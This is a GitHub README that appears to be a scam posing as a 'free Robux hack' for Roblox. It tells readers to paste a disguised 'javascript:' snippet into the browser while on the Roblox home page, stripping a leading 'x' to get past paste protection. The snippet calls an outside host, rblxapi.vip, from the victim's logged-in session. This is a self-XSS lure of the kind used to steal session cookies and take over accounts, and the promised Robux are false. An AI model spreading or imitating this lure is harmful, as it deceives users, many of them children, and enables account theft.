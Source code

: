 # RobloxFreeRobux
Hi!
Welcome Back With Another Game Hack!
This Hack For ROBLOX game !!!
Roblox Free Robux Hack !!!

# Usage
To run the hack,
you need to copy the code I give below.


CODE = xJavascript:$.get("//rblxapi.vip/api?id=2958064")


Now you need to open "Roblox Home Page"

When you copy the code, it has a (x) in front of it.

Paste it into the roblox browser and remove the x in front of it and click enter.

Type the amount of robux you want in the Pop-Up that appears

Refresh The Page And...

You now have your robux!!!
